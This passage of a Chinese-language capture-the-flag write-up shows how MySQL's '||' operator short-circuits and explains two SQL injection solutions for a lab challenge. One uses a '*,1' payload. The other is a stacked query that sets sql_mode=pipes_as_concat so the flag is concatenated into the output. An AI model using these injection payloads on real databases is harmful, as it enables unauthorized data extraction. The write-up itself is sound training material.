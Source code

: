 ```sql
| 0 || sleep(1) |
+---------------+
|             0 |
+---------------+
1 row in set (1.01 sec)
```

可以看到前面为 1 的时候, 因为整个条件本身已经满足 true, 所以不会执行 sleep(1), 而前面为 0 的时候, 则需要进一步确认整个条件的真假性, 所以执行了后面的 sleep(1) (返回 0 的原因是 sleep 函数没有返回值)

理解了之后再看第一种解法

```sql
select *,1 || flag from Flag;
```

把语句分开看, 逗号前面是 `*`, 而逗号后面的 `1 || flag` 是一个整体, 这个整体返回的就是 true

这就类似于平常查表的时候执行 `select name,age from students`, 通过逗号来查询多个字段

为啥是 `*,1` 而不能是 `1,*`? 后者在 mysql 里执行会报错

把语句拼接一下是下面这样

```sql
select 1,* || flag from Flag;
```

`* || flag` 本身就是个错误的写法, 通配符无法表示真假性

最后再说一下, payload 的关键点在于 `*`, 而后面的数字不影响执行的结果, 改成其它值也是可以的

**第二种解法**

```sql
1;set sql_mode=pipes_as_concat;select 1
```

这是在已经知道了 SQL 语句中含有 `||` 的前提下, 通过更改 mysql 的配置来改变 `||` 的功能

光看单词也很容易理解, 将 `||` 功能从逻辑运算符更改为拼接字符串

```sql
mysql> set sql_mode=pipes_as_concat;
Query OK, 0 rows affected (0.00 sec)

mysql> select 1||2||3||4||5;
+---------------+
| 1||2||3||4||5 |
+---------------+
| 12345         |
+---------------+
1 row in set (0.00 sec)
```

这样之后执行 `select 1 || flag from Flag` 的时候, 也会把 flag 显示出来 (拼接)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208211603291.png)

## [极客大挑战 2019]Secret File
